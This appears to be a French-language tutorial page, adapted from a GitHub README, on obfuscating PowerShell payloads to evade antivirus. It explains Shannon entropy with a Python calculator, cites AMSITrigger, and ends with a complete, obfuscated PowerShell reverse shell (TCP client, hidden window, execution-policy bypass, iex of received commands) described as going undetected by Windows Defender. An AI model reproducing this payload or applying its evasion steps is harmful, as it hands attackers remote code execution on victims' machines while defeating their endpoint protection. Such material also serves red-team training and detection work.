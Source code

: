 Source : https://github.com/t3l3machus/PowerShell-Obfuscation-Bible/blob/main/README.md

L'**obfuscation** est le fait de **rendre** un payload **plus obscure** afin d'**évader** les protections **Antivirus**.

## __Entropie__

L'**entropie** est une notion mathématique qui vise à **mesurer** à quel point un **payload est aléatoire**, si une chaine est composé exclusivement d'un seul caractère son entropie sera 0, **plus il y a de caractère différent plus l'entropie va augmenter**, le calcul prend aussi en compte la **fréquence d'apparition** de ces caractères.

Pour la calculer on a implémenté la **formule de Claude E. Shannon** en python :

```python
#!/bin/python3
# Usage: python3 entropy.py <file>

import math, sys

def entropy(string):
    "Calculates the Shannon entropy of a UTF-8 encoded string"

    # decode the string as UTF-8
    unicode_string = string.decode('utf-8')

    # get probability of chars in string
    prob = [ float(unicode_string.count(c)) / len(unicode_string) for c in dict.fromkeys(list(unicode_string)) ]

    # calculate the entropy
    entropy = - sum([ p * math.log(p) / math.log(2.0) for p in prob ])

    return entropy


f = open(sys.argv[1], 'rb')
content = f.read()
f.close()

print(entropy(content))
```

![[Entropy1.png]]


## __Identify Detection Triggers__

Avant d'effectuer une tentative d'obscusissement du code, il faut **savoir ce qui déclanche l'alerte**, pour se faire, on peut utiliser **[AMSITrigger](https://github.com/RythmStick/AMSITrigger)**.

On peut également le faire à la main en regardant les erreurs.


## __Rename Objects__

Il est important de renommer le nom de nos variables en respectant le concept de [Entropie](PowerShell_Obfuscation#__Entropie__), cela rend le travail plus difficile pour les antivirus.

Voici un code détecté par les antivirus classique dont windows defender :

![[renameObj1.png]]

En remplaçant le nom des variables ainsi que **`(pwd).Path`** par **`$(gl)`**, on obtient un code que les antivirus ne découvre pas. 

```powershell
powershell -noni -ep bypass -windowstyle hidden -c "`$84b5d7ab8755451cb386a79589e39fa8 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181); `$3b95c1d3d7dc4e4fa6474ce1bceae743 = `$84b5d7ab8755451cb386a79589e39fa8.GetStream(); [byte[]] `$367ad63a4a834bf5bb275aab24a4890c = 0..65535|%{0}; while((`$d084ee484cf44c09b003024847840f3d = `$3b95c1d3d7dc4e4fa6474ce1bceae743.Read(`$367ad63a4a834bf5bb275aab24a4890c, 0, `$367ad63a4a834bf5bb275aab24a4890c.Length)) -ne 0){; `$b16fd2353f0d413484e1583776256f61 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(`$367ad63a4a834bf5bb275aab24a4890c,0, `$d084ee484cf44c09b003024847840f3d); `$b396f8bb13ec47c28e4f721085e95361 = (iex `$b16fd2353f0d413484e1583776256f61 2>&1 | Out-String ); `$2bfb84697b834fa09479071ec68d6b19 = `$b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; `$12e0e1f0c5e14474b53907ee11f75ed7 = ([text.encoding]::ASCII).GetBytes(`$2bfb84697b834fa09479071ec68d6b19); `$3b95c1d3d7dc4e4fa6474ce1bceae743.Write(`$12e0e1f0c5e14474b53907ee11f75ed7,0, `$12e0e1f0c5e14474b53907ee11f75ed7.Length);`$3b95c1d3d7dc4e4fa6474ce1bceae743.Flush()}; `$84b5d7ab8755451cb386a79589e39fa8.Close()"
```



